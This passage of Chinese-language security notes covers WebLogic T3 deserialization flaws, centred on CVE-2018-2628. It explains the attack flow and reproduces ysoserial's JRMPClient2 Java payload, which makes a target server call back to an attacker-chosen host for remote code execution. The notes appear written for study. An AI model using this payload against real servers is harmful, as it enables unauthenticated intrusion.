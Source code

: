 1.使用ysoserial的JRMPLister，反序列化RemoteObjectInvocationHandler ，RemoteObjectInvocationHandler 使用UnicastRef建立到远端的TCP链接获取RMI registry

2.使用JRMP协议，客户端响应服务端任何内容，实现未经身份验证远程代码执行

##### 主要步骤：

​	1.监听JRMP协议端口

​	2.通过T3协议发送反序列化payload

​	3.触发漏洞





 



#### CVE-2018-2628

##### 基本原理和危害：

产生原因:weblogci对于T3协议发送的数据包没有过滤

危害：可以使远程攻击者在未授权的情况下远程执行代码，提升系统权限

1.当开放weblogic控制台端口(7001)的时候，T3服务会默认开启。

2.CVE漏洞利用的第一步是与weblogic服务器开放在服务端口上的T3服务建立socket连接

3.握手(连接)成功后，可以发送构造的payload到服务端，导致反序列化命令的执行。



##### 构造payload

流程：注册一个RMI接口，通过T3协议建立连接。攻击7001端口上的T3服务，该服务会解包Object结构(一步步解包)，利用readObject解析，解析到服务器上1099端口请求而已封装的代码，导致漏洞执行。

##### poc

```java
//使用了ysoserial中的ObjectPayload接口
//ObjectPayload是定义的接口，所有的Payload需要实现这个接口的getObject方法
public class JRMPClient2 extends PayloadRunner implements ObjectPayload<Activator> {

    public Activator getObject ( final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        //RemoteObjectInvocationHandler，它会利用UnicastRef建立到远端的tcp连接获取RMI registry
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        //可以使用java.rmi.activation.Activator来替代java.rmi.registry.Registry生成payload
        Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient2.class.getClassLoader(), new Class[] {
            Activator.class
        }, obj);
        return proxy;
    }
```